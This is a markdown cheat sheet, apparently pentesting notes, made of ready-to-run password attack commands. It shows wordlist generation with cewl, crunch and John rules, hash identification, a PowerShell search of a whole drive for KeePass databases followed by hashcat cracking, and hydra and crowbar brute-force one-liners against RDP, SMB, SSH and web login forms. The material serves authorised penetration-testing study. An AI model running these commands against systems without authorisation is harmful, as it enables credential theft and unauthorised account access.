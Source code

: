 # Password-Attcak-Lists



## Generating Wordlists

### Cewl - Custom Word List generator

- > generating wordlist based on information from a website

```
cewl <domain> -w wordlist.txt

```

### Crunch - Wordlist Generator

- > Character Translation

`@ = Lower case alpha characters`

`, = Upper case alpha characters`

`% = Numeric characters`

`^ = Special characters including space`

- > Usage

```
./crunch <min-len> <max-len> [charset]

```

- > basic examples

```
crunch 9 9 -t ,@@@@^%%%

```

```
crunch 4 6 0123456789abcdef -o wordlist.txt

```

### John Mutation

- > Add the rules you want in the /etc/john/john.conf file inside the rules module [List.Rules:Wordlist] to modify your wordlists

-> basic rule example `$@$[1-2]$[0-9]$[0-9]$[0-9]`

```
john --wordlist=wordlist.txt --rules --stdout > mutated.txt

```

https://www.openwall.com/john/doc/RULES.shtml

## Cracking Password

### Identifying Hash Type

```
hashid <hash>

```

https://www.tunnelsup.com/hash-analyzer/https://hashes.com/en/tools/hash_identifier

### Hashing different file types for cracking with 2john

- [ssh2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/ssh2john.c)
- [rar2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/rar2john.c)
- [zip2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c)
- [keepass2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keepass2john.c)
- [office2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/office2john.c)
- [pdf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pdf2john.c)
- [pwsafe2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pwsafe2john.c)
- [racf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/racf2john.c)
- [vncpcap2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/vncpcap2john.cpp)
- [hccap2jjohn](https://github.com/piyushcse29/john-the-ripper/blob/master/src/hccap2john.c)
- [keychain2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keychain2john.c)
- [mozilla2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/mozilla2john.c)

### Password Manager

- > Search KeePass database files

```
Get-ChildItem -Path C:\\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

```

- > Hashing the .kdbx file

```
keepass2john Database.kdbx > keepass.hash

```

- > Finding Hash-Mode ID of hashcat

```
hashcat --help | grep -i "KeePass"

```

- > Cracking

```
hashcat -m 13400 keepass.hash

```

## Brute Force Attacks

### RDP Brute Force - Hydra

```
hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>

```

### RDP Brute Force - Crowbar

```
crowbar -b rdp -s X.X.X.X/32 -u admin -C /usr/share/wordlists/rockyou.txt -n 1

```

### SMB Brute Force - Hydra

```
hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb

```

### SSH Brute Force - Hydra

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>

```

### HTTP POST Login Form Brute Force - Hydra

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f

```

### HTTP GET Login Form Brute Force - Hydra

```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login

```
